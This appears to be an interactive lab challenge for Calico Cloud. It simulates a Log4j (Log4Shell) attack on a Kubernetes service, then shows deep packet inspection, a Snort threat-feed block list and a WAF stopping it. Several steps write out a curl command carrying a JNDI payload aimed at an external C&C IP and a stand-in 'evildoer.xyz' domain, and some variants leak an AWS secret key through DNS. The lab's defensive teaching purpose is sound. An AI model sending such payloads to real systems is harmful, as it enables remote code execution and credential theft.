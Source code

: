 ```yaml
---
slug: waf-dpi
id: km7fd7bgqviq
type: challenge
title: Mitigate the risk of Log4j using DPI and WAF
teaser: Apply security policies to reduce the attack surface.
notes:
- type: image
  url: ../assets/module03.png
tabs:
- title: Shell
  type: terminal
  hostname: controlplane
- title: Calico Cloud
  type: website
  hostname: controlplane
  url: https://www.calicocloud.io/home
  new_window: true
difficulty: basic
timelimit: 600
---
```


Log4j exploit simulation
================

**So how does this attack work?**
- In simple terms, the attacker exploits the vulnerability by sending a malicious request that includes an IP of the command and control (C&C) server to the Java Log4j server, and then the Log4j library executes it without verification and starts the communication with the C&C server.
- This results in an open threat that can be used to send the malicious payload by crafting a malicious request.

We will simulate the Log4j exploit in the `dev` namespace.


1- Get the IP address of the `vr-dev` service in the `dev` namespace.

```
kubectl get svc -n dev
```

2- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

3- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Notice the IP of the C&C server is part of the query `185.220.101.56`.

4- Now let's go to the Calico Cloud UI to see the impact of this query.
- From the left menu, select **Service Graph** and choose ***Default**
- Double-click **Dev** namespace
- Click on the line that represents the traffic from `multitool` to `vr-dev` and expand the flows to see the details.

![Image Description](../assets/multitool-to-vr.png)

- click on the line that represent the traffic from `vr-dev` to `public network` and expnad the fllows to see the deatails.

![Image Description](../assets/vr-to-public.png)

Now the attacker has an open threat that could be used to send the malicious payload.

It's time to add some guard rails to protect against these malicious requests.

Deep Packet Inspection
================

1- Create a `DeepPacketInspection` resource. In this example, we will enable DPI on the `vr-dev` service in the `dev` namespace.

```bash
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: DeepPacketInspection
metadata:
  name: dpi-vr
  namespace: dev
spec:
  selector: app == "vr"
EOF
```

2- Check that the `tigera-dpi` pods are created successfully. It's a daemonSet, so one pod should be created in each node.

```bash
kubectl get pods -n tigera-dpi
```

3- Now, let's re-run our test.

- Access the `multitool` pod to execute a malicious request to exploit Log4j in the `vr-dev` service.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

4- This time, you should get an alert in Calico Cloud’s UI. Check the alert in the `Service Graph` or `Alerts` page.

![Image Description](../assets/dpi-alert.png)

![Image Description](../assets/alerts-page.png)


Threat feeds
================
Another mechanism to proactively restrict workload access is to use global threat feeds. Threat feeds are databases of known malicious IPs and FQDN that get updated regularly, and you can integrate them into Calico Cloud.

In this example of the Log4j exploit, the command and control IP address is listed in the Snort threat feed.

Let's configure Snort threat feeds to stop the log4j exploitation.

1- Create GlobalThreatFeed.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalThreatFeed
metadata:
  name: snort-ip-block-list
spec:
  pull:
    http:
      url: https://snort.org/downloads/ip-block-list
  globalNetworkSet:
    labels:
      threatfeed: snort
EOF
```

2- Create a security policy to block traffic to malicious IPs.

```
cat <<EOF| kubectl apply -f -
apiVersion: projectcalico.org/v3
kind: GlobalNetworkPolicy
metadata:
  name: tigera-security.block-snort-ipthreatfeeds
spec:
  tier: tigera-security
  order: 0
  selector: all()
  namespaceSelector: ''
  serviceAccountSelector: ''
  egress:
    - action: Deny
      source: {}
      destination:
        selector: threatfeed == "snort"
  doNotTrack: false
  applyOnForward: false
  preDNAT: false
  types:
    - Egress
EOF
```

3- Repeat the log4j test.

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.${env:AWS_SECRET_ACCESS_KEY}.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```

Now you notice that traffic is blocked because the C&C server IP is a malicious IP.

![Image Description](../assets/snort-threatfeeds.png)
![Image Description](../assets/threatfeed-alert.png)


Web Application Firewall (WAF)
================
Calico Cloud’s workload-based web application firewall (WAF) helps you protect cloud-native applications from application-layer attacks.

Important: You need to delete the globalthreatfeeds we created before to ensure it's not blocking the traffic.

```bash
kubectl delete globalthreatfeeds snort-ip-block-list
```

1- In this lab, WAF is enabled by default. You can check the status by running the following command:

```bash
kubectl describe  ApplicationLayer tigera-secure | grep 'Web Application Firewall'
```

2- Now you need to annotate the services for which you wish to enable WAF. In this example, we will annotate the `vr-dev` service.

```bash
kubectl annotate svc vr-dev -n dev projectcalico.org/l7-logging=true
```

3- If you try to exploit the Log4j vulnerability again, traffic should be blocked and you should get the following alert:

```bash
kubectl exec -n dev -it multitool -- bash
```

- Replace `SRV_IP` with the IP addreess of `vr-dev` service that you got from step #1, then run the query.

```
curl -v -H 'User-Agent: ${jndi:dns://${SRV_IP.evildoer.xyz}' 'vr-dev.dev/$\{jndi:ldap://185.220.101.56:443/a\}'
```
- This time you should get a different http response as following

``bash
 HTTP/1.1 403 Forbidden
```

🏁 Finish
============
Click **Next** to continue to the next challenge.

